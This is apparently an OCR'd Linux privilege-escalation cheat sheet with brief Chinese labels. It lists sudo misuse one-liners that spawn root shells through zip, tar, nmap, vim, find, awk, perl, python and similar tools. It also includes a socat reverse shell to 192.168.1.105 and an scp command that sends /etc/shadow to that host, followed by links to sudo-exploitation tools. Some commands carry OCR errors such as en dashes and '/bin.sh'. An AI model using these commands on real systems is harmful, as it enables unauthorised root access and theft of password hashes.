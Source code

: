 	>sudo -l  查看
	/home/user/.sudo_as_admin_successful
	>sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
	>sudo tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
	>sudo strace –o /dev/null /bin/bash
	>sudo nmap –interactive nmap>!sh
	>echo "os.execute('/bin.sh')">/tmp/1.nse
	>sudo nmap –script=/tmp/shell.nse 
	>sudo more/less/man /etc/rsyslog.conf  > !bash
	>sudo git help status 
	>!/bin/bash
	>sudo ftp
	>!/bin/bash
	>sudo vim -c '!sh'
	>sudo vi   > :!bash
	>sudo find /bin/ -name ls -exec /bin/bash ;
	>sudo find /home -exec /bin/bash \;
	>sudo awk 'BEGIN {system("/bin/sh")}'
	>sudo su
	>sudo bash
	>sudo perl -e 'exec "/bin/bash";'
	>sudo python -c 'import pty;pty.spawn("/bin/bash")'
	>sudo man man   > !bash
	>sudo /bin/script/asroot.sh
	>sudo env /bin/bash
	>sudo ftp
	>! /bin/bash
	>whoami
	>or
	>! /bin/sh
	>id
	>whoami
	>sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
	>sudo scp /etc/shadow aarti@192.168.1.105:~/

	工具
	https://github.com/TH3xACE/SUDO_KILLER
	sudo_inject
	https://github.com/nongiach/sudo_inject